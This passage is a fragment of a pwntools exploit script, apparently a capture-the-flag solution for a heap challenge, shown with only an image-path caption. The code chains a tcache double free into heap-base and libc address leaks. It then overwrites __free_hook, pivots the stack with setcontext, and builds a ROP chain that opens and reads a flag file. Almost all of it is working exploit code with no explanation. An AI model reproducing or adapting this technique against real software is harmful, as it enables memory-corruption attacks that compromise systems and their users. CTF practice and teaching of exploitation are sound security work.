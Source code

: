 ```python
    p.sendlineafter("Content: ",content)
    
def show():
    p.sendlineafter("Your choice: ","3")
    p.sendlineafter("Index: ",str(0))
    p.recvuntil("Content: ")
def free():
    p.sendlineafter("Your choice: ","4")
    p.sendlineafter("Index: ",str(0))
add(0x30)
free()
edit(p64(0)*2)
free()
show()
heap_base = u64(p.recv(6).ljust(8,"\x00")) - 0x1920
add(0x30)
add(0x30)
add(0x30)
free()
add(0x40)
p.sendlineafter("Your choice: ","1")
p.sendlineafter("Index: ", '1' * 0x410)
add(0x30)
show()
libc.address = u64(p.recv(6).ljust(8,"\x00")) - 176 - 0x10 - libc.sym['__malloc_hook']
free_hook = libc.sym['__free_hook']
setcontext = libc.sym['setcontext']
open_ = libc.sym['open'] + 0x20
write = libc.sym['write'] + 0x20
read = libc.sym['read'] + 0x20
pop_rdi = libc.address + 0x00000000000215bf + 0x20
pop_rsi = libc.address + 0x0000000000023eea + 0x20
pop_rdx = libc.address + 0x0000000000001b96 + 0x20
pop_rsp = libc.address + 0x0000000000003960 + 0x20
pop_rax = libc.address + 0x0000000000043ae8 + 0x20
syscall = libc.address + 0xE4345 + 0x20
#.text:00000000000E4345                 syscall                 ; LINUX - sys_times
add(0x10)
free()
edit(p64(0)*2)
free()
add(0x10)
edit(p64(free_hook + 0xb0))
add(0x10)
add(0x10)
edit(p64(heap_base + 0x18c0) + p64(pop_rsp))
#gdb.attach(p)
add(0x50)
edit(p64(heap_base + 0xe98))
add(0x78)
free()
edit(p64(0)*2)
free()
add(0x78)
edit(p64(free_hook + 0x10))
add(0x78)
pd = "./flag".ljust(8,'\x00')
pd += p64(pop_rdi) + p64(0)
pd += p64(pop_rsi) + p64(heap_base + 0xed0)
pd += p64(pop_rdx) + p64(0x200)
pd += p64(read)
edit(pd)
#gdb.attach(p)
```